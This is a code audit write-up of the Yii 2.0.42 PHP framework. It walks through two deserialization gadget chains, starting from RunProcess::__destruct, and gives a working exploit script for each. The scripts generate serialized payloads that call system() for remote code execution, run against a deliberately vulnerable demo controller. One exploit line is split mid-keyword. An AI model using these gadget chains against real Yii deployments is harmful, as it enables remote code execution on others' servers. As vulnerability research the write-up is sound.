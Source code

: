 # Yii2.0.42 Code Audit

Author: H3rmesk1t

#Environmental construction
> Modify the `cookieValidationKey` in `config\web.php` to any value to be used as the encrypted value of `yii\web\Request::cookieValidationKey`. If it is not set, an error will occur.

> Add a `Controller` to act as a trigger for the deserialization vulnerability

```php
<?php

namespace app\controllers;
use yii\web\Controller;

class DemoController extends Controller{
    public function actionDemo($data){
        return unserialize(base64_decode($data));
    }
}
```

# Vulnerability Analysis
> Search the global search for `__destruct()` to find the trigger points for deserialization. After checking each `__destruct()` method, I found that many of the starting points that can be exploited have been added to the `__wakeup()` method to patch the vulnerabilities of deserialization.

<img src="./images/yii-1.png" alt="">

## POC Chain-1
> Follow up on the `__destruct()` method in `vendor\codeception\codeception\ext\RunProcess.php`, which will call the `stopProcess()` method and flip the `$this->processes` array variable first. Since the `$process` variable is controllable, you can further find the utilization chain by looking for the `__call()` method.

<img src="./images/yii-2.png" alt="">

> Follow up on the `__call()` method in `vendor\fakerphp\faker\src\Faker\ValidGenerator.php`. There is the `call_user_func()` method in the while statement. Since `$this->validator` is controllable, when `$res` is controllable, it can cause the use of the command execution function. Therefore, you need to find the `__call()` method in a class to return a controllable variable value.

<img src="./images/yii-3.png" alt="">

> Follow up on the `__call()` method in `vendor\fakerphp\faker\src\Faker\DefaultGenerator.php`, whose return value is a controllable variable value, successfully forming a closed utilization chain

<img src="./images/yii-4.png" alt="">

### exp
```php
<?php

namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($payload) {
			$this->default = $payload;
		}
	}
	class ValidGenerator {
    	protected $generator;
    	protected $validator;
    	protected $maxRetries;
    	public function __construct($payload) {
    		$this->generator = new DefaultGenerator($payload);
    		$this->validator = "system";
    		$this->maxRetries = 1;
    	}
	}
}

namespace Codeception\Extension {
	use Faker\ValidGenerator;
	class RunProcess {
		private $processes = [];
		public function __construct($payload="") {
			$this->processes[] = new ValidGenerator($payload);
		}
	}
	echo base64_encode(serialize(new RunProcess("calc")));
}
?>
```

### POC chain utilization flow chart
<img src="./images/yii-5.png" alt="">

## POC Chain-2
> The starting point remains unchanged. Follow up on the `__call()` method in `vendor\phspec\prophecy\src\Prophecy\Prophecy\ObjectProphecy.php`, which will call a `reveal()` method, and `$this->revealer` is controllable

<img src="./images/yii-6.png" alt="">

> After trying to automatically call the method in other classes without using this method, I found that it cannot be used. Therefore, I followed up with the `reveal()` method in this class. Here `$this->lazyDouble` is controllable and can be assigned to the class with the `getInstance()` method

<img src="./images/yii-7.png" alt="">

> Follow up on the `getInstance()` method in `src/Prophecy/Doubleer/LazyDouble.php`, both `$this->double` and `$this->arguments` are controllable. There is no difference between the statements that progress into if judgment here. The final method is the same, and `$this->double` is controllable. Follow up on the `double()` method, confirm that the class of the method exists, and then instantiate the class to `$this->double`. The assignment of `$this->class` and `$this->interfaces` needs to be determined based on the parameter type of the `double()` method.

<img src="./images/yii-8.png" alt="">

> Continue to follow up on the `double()` method in `src/Prophecy/Doubler/Doubler.php`, first use the `ReflectionClass` class to build the reflection class of the exception handling class to avoid exception throwing in the code, so as to call the `createDoubleClass()` method

<img src="./images/yii-9.png" alt="">

> Continue to follow up on the `createDoubleClass()` method in the `Double` class. Here, the `$name` and `$node` can be constructed arbitrarily using the `__call()` method in the `DefaultGenerator` class, so as to enter the `create()` method.

<img src="./images/yii-10.png" alt="">

> Follow up on the `create()` method. `$node` needs to be a `Node\ClassNode` class object. Here, you can use the `eval()` method to insert code execution, or use the same method to make `$code` controllable and instantiate it into a `DefaultGenerator` class object

<img src="./images/yii-11.png" alt="">

### exp
```php
<?php
namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($cmd) {
			$this->default = $cmd;
		}
	}
}

namespace Prophecy\Doubler\Generator {
	use Faker\DefaultGenerator;
	class ClassCreator {
		private $generator;
		public function __construct($cmd) {
			$this->generator = new DefaultGenerator($cmd);
		}
	}
}

namespace Prophecy\Doubler\Generator\Node {
	class ClassNode {}
}

namespace Prophecy\Doubler {
	use Faker\DefaultGenerator;
	use Prophecy\Doubler\Generator\ClassCreator;
	use Prophecy\Doubler\Generator\Node\ClassNode;
	class Doubler {
		private $namer;
		private $mirror;
	    private $creator;
	    public function __construct() {
	    	$this->namer = new DefaultGenerator("H3rmesk1t");
	    	$this->mirror = new DefaultGenerator(new ClassNode());
	    	$this->creator = new ClassCreator("system('calc.exe');");
	    }
	}
}

namespace Prophecy\Doubler {
	use Prophecy\Doubler\Doubler;
	CLA
ss LazyDouble {
		private $class;
		private $doubler;
	    private $argument;
	    private $interfaces;
	    public function __construct() {
	    	$this->doubler = new Doubler();
	        $this->argument = ["H3rmesk1t" => "H3rmesk1t"];
	        $this->class = new \ReflectionClass('Exception');
	        $this->interfaces[] = new \ReflectionClass('Exception');
	    }
	}
}

namespace Prophecy\Prophecy {
	use Prophecy\Doubler\LazyDouble;
	class ObjectProphecy {
		private $revealer;
		private $lazyDouble;
		public function __construct($cmd) {
			$this->revealer = $cmd;
			$this->lazyDouble = new LazyDouble();
		}
	}
}


namespace Codeception\Extension {
	use Prophecy\Prophecy\ObjectProphecy;
	class RunProcess {
		private $processes;
		public function __construct() {
			$cmd = new ObjectProphecy("H3rmesk1t");
			$this->processes[] = new ObjectProphecy($cmd);
		}
	}
	echo base64_encode(serialize(new RunProcess()));
}
?>
```

### POC chain utilization flow chart
<img src="./images/yii-12.png" alt="">